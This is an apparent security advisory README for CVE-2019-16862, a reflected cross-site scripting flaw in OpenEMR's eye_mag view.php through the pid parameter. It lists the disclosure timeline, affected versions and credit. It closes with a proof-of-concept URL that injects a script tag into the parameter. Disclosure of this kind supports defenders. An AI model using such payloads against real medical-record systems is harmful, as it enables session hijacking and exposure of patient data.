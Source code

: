 # CVE-2019-16862
Reflected XSS in `interface/forms/eye_mag/view.php` in OpenEMR 5.x before 5.0.2.1 allows a remote attacker to execute arbitrary code in the context of a user's session via the `pid` parameter.

## Timeline
* **Discovered:** September 24, 2019
* **Pull Request Issued:** September 24, 2019
* **Reported:** September 24, 2019
* **OpenEMR merged pull Request:** September 24, 2019
* **CVE ID issued:** October 24,  2019
* **OpenEMR Release:** October 10, 2019 (5.0.2.1)

## Version Details
**Fixed-In Version:** 5.0.2.1

**Affected Versions:**
* 5.0.1
* 5.0.1.1
* 5.0.1.2
* 5.0.1.3
* 5.0.1.4
* 5.0.1.5
* 5.0.1.6
* 5.0.1.7
* 5.0.2

## Credit
Will Porter, Lodestone Security (https://www.lodestonesecurity.com/)

## References
[Pull Request](https://github.com/openemr/openemr/pull/2685)

## POC Exploit
Assuming OpenEMR is running on `localhost`
```
http://localhost/openemr/interface/forms/eye_mag/view.php?pid="><script>alert(%27pid%20xss%27);</script><"&id=1
```
